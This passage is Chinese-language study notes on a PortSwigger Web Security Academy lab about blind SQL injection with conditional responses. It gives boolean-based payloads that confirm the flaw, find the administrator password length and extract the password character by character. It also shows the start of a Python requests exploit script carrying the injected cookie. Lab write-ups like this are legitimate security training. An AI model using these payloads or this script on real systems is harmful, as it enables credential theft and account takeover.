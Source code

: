 最終，我們發送以下輸入，它返回「歡迎回來」訊息，從而確認密碼的第一個字元是 `s`：`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

我們可以繼續此過程，系統性地確定 `Administrator` 使用者的完整密碼。

`SUBSTRING` 函數在某些類型的資料庫中稱為 `SUBSTR`。更多詳細資訊請參閱 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

::: tip **Lab: [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)**
1. 題目敘述說明會將 Cookie 傳送到 SQL 進行查詢，且存在 SQLi 漏洞。它不會回傳 SQL 查詢結果，但如果查詢到任何一筆資料，將在頁面顯示「Welcome back」。需找到 `administrator` 使用者的密碼並登入以通關。
2. 以下將以 `xyz` 表示 Cookie 中 `TrackingId` 的值
3. 確認 Cookie 中 `TrackingId` 的值存在盲注 SQL 注入漏洞
    ```SQL
    xyz' AND '1'='1
    xyz' AND '1'='2
    ```
4. 判讀 `administrator` 使用者的密碼長度
    ```SQL
    xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=3)='a
    ```
    經過多次修改長度值，得知密碼長度為 20
5. 使用 Payload 破解密碼的第一位：`xyz' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) > 'm`
6. 寫 Exploit（請自行更改 Cookie、subdomain 等值）：
    ```python=
    import requests
    import urllib3

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    cookies = {
        'TrackingId': "l0AntyMBnvwpU3eL' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) = 'i",
        'session': 'JEiebpgsXn8HM4UbG1NvnyExDRGmxQ2U',
    }

    headers = {
        'Host': '0ad80007034af3b4815416d000260088.web-security-academy.net',
        'Sec-Ch-Ua': '"Not.A/Brand";v="99", "Chromium";v="136"',
        'Sec-Ch-Ua-Mobile': '?0',
        'Sec-Ch-Ua-Platform': '"macOS"',
        'Accept-Language': 'en-US,en;q=0.9',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Sec-Fetch-Site': 'same-origin',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-User': '?1',
        'Sec-Fetch-Dest': 'document',
        'Referer': 'https://0ad80007034af3b4815416d000260088.web-security-academy.net/filter?category=Pets',
        # 'Accept-Encoding': 'gzip, deflate, br',
        'Priority': 'u=0, i',
        # 'Cookie': "TrackingId=l0AntyMBnvwpU3eL' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) = 'i; session=JEiebpgsXn8HM4UbG1NvnyExDRGmxQ2U",
    }

